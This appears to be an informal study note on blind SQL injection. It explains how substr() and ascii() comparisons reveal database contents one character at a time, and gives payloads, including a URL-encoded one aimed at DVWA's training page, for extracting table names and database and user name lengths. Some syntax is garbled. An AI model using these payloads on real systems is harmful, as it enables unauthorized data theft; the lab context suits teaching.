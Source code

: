 Blind SQLI
====

Blind detection
Sql injection trigger on sqlserver.

sql queuery ask the database true and false conditions and determine response based on  application  responses.  It generates the specific msg like if the value exist in database return the msg A from the specified code other wise return with block of code B. 

After that by balancing the right and left side of queer, by ‘,” or by ‘),’) depending on the string mentioned at back end…..

Functions:-
Substr(“function”,position, character)
substr(database(),1,1) 
 
Extract substring from the string.

Ascii:-
Converts the char value to ascii value…..it converts subsets extract value to ascii value.

ascii(substr(database(),2,1)) 
It implies that extract 1 character from the 2nd position of database() and convert it into ascii value.
Further which is detect by matching it with ascii table using <,> symbols.
E.g
90<ascii(substr(database(),1,1))
Msg;- value exist or the true condition
110<ascii(substr(database(),1,1))
Msg:- value not exist or false condition.
100=ascii(substr(database(0,1,1))
Value exist
Which is equal to [d] in ascii table table……

	dvwa/vulnerabilities/sqli_blind/?id=1%27%20and%20110%3Cascii(substr((SELECT%20table_name%20from%20information-schema.tables%20where%20table_schema=database()%20limit%201,1),2,1))--%20-



>>>   payload to identifies the length of database, table name , user() etc.

And ascii(length(database()))>100			this let us know the length of database

And ascii(length(user()))>110    this let us know the user length

This way we can identifies the length.
